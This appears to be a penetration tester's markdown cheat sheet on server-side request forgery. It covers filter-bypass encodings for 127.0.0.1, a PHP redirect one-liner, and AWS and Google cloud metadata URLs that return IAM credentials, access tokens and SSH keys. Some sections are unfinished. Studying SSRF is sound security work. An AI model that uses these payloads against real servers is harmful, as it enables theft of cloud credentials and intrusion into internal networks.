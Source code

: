 # SSRF

## WHERE

### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
#### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

## BYPASS

### Whitelist
	
* Open redirect
* @ , # , / , . 
* Encoding ?

### Blacklist
	
* Encoding
	
	. Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
	. Octal : 127.0.0.1 translates to 0177.0.0.01
	. DWord : 127.0.0.1 translates to 2130706433
	. URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
	. Mixed : 127.0.0.1 translates to 0177.0.0.0x1

* Ip V6
* DNS 
* Redirect : <?php header(“location: http://127.0.0.1"); ?> / TinyUrl 

## EXPLOIT

### Collect instance metadata 
	
#### AWS

	* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

	* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

	* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

	* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

	* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

#### GOOGLE

	* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.

	* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

### fingerprinting : 
	
* internally : port scanning, other services on internal ip ? 

	. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
	. 127.0.0.0/8
	. 192.168.0.0/16
	. 10.0.0.0/8

* externally : user agent in dns/http request

### Bypass access controls

### RCE ???

## LINKS

	- SSRF Bible : https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy

	- Vickie Li : https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f

	- Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses

	- Common ports : https://packetlife.net/media/library/23/common-ports.pdf
	
	- AWS EC2 Docs: http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (includes a comprehensive Instance Metadata Categories table)
	
	- Toutes les references possibles !!! : https://medium.com/@pravinponnusamy/ssrf-payloads-f09b2a86a8b4

